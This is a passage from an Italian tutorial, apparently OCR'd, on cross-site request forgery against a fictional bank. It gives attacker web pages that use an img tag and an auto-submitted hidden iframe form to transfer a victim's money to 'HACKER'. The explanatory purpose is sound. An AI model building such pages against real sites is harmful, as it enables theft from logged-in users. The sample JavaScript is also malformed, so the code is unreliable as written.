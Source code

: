     
     send_money($euro, $toname, $tolol, $toasd, $toomg);
      
     ?>


Ora un attaccante, grazie ai REQUEST potrebbe usufruire di richieste GET maligne, per

spedire i soldi in un determinato posto , rubandoli.
Ora arriva la parte importante:
Noi attaccanti dobbiamo riuscire a dirigere l'utente, mentre Ã¨ loggato alla banca, su una

pagina web nostra o anche su un immagine o video..
esempio:(mentre l'utente sta guardando il suo ammontare per esempio..)
ATTACCANTE:"Vieni a vedere questa bellssima foto! Link: http://sitonostro/immagine.html"

Ora la pagina ../immagine.html dovrebbe essere struttura piÃ¹ o meno cosÃ¬:



   <html>
    <head><title>Immagine bellissima</title></head>
    <body>
<img

src="http://bancavittima.it/spediscieuro.php?euro=TUTTI&toname=HACKER&tolol=123456&toasd=123

456&toomg=X">
    </body>
   </html>


Come potete osservare da soli, l'utente mentre guarda l'immagine bellissima Ã¨

contemporaneamente collegato alla banca ed eseguirÃ  ignaro di tutto un trasferimento di

TUTTI i suoi soldi verso HACKER(attaccante). Ora avete capito? qui sta la bellezza di questi

tipi di attacco: Ã¨ l'utente che tramite i suoi cookie e il suo account esegue richieste HTTP

piÃ¹ o meno dannose per noi(in questo caso direi m0lto dannose!!).


Ora, probabilmente nessuna banca Ã¨ cosÃ¬ stupida da usare richieste come REQUEST ma

probabilmente userebbe per un transito monetario richieste POST. In questo caso la nostra

pagina immagine.html sarebbe diventata:


     <html>
     <head>
     <title>Immagine bellissima</title>
     <script>
     rubaeuro() {
          iframe = document.frames["rubaeuro"];
          iframe.document.ruba.submit();
     }
     </head>
     <body onload="rubaeuro()">
     <div><img src="immagine_vera_bellissima.jpg"></div>
     <iframe name="rubaeuro" display="none">
          <form method="POST" name="ruba"
           action="http://bancavittima.com/spediscieuro.php">
               <input type="hidden" name="euro" value="TUTTI">
               <input type="hidden" name="toname" value="HACKER">
               <input type="hidden" name="tolol" value="123456">
               <input type="hidden" name="toasd" value="123456">
               <input type="hidden" name="toomg" value="X">
          </form>
     </iframe>
     </body>
     </html>
